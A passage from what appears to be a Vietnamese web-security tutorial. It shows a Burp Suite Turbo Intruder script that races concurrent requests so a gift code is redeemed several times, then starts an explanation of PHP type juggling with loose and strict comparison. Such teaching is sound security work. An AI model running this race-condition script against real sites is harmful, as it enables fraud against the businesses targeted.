 #### **Bước 2: Tấn công với Burp Suite Turbo Intruder**
- Sử dụng Burp Suite để chặn và chỉnh sửa yêu cầu HTTP.
- Tạo script trong Turbo Intruder để gửi nhiều yêu cầu đồng thời với các `PHPSESSID` khác nhau.
- Ví dụ script Python trong Turbo Intruder:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False)
    for sess in ["session1", "session2", "session3", "session4"]:
        engine.queue(target.req, sess, gate='race')
    engine.openGate('race')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```
- Kết quả: Mã quà tặng được áp dụng nhiều lần, tăng số dư.

---


# 12. Giới thiệu về Type Juggling (Biến đổi kiểu) 

**Type juggling** trong PHP là một hành vi nội bộ chuyển đổi kiểu dữ liệu của biến trong một số ngữ cảnh, chẳng hạn như so sánh. Mặc dù điều này không phải là một lỗ hổng bảo mật bản chất, nhưng trong một số trường hợp cụ thể, nó có thể dẫn đến những kết quả không mong muốn và gây ra lỗ hổng bảo mật.

---

### So sánh lỏng lẻo và nghiêm ngặt trong PHP 

PHP hỗ trợ hai kiểu so sánh: 

1. **So sánh lỏng lẻo** (`==`): Thực hiện so sánh sau khi biến đổi kiểu dữ liệu (type juggling).
2. **So sánh nghiêm ngặt** (`===`): So sánh cả giá trị lẫn kiểu dữ liệu.

Ví dụ:

```php
$a = 42;
$b = "42";

// So sánh lỏng lẻo
if ($a == $b) { echo "So sánh lỏng lẻo"; }

// So sánh nghiêm ngặt
if ($a === $b) { echo "So sánh nghiêm ngặt"; }
```

- Với so sánh lỏng lẻo, PHP sẽ chuyển `$b` từ chuỗi `"42"` thành số nguyên `42`, và kết quả của phép so sánh là **đúng** (`true`).
- Với so sánh nghiêm ngặt, kiểu dữ liệu khác nhau (`int` vs `string`) dẫn đến kết quả là **sai** (`false`).

---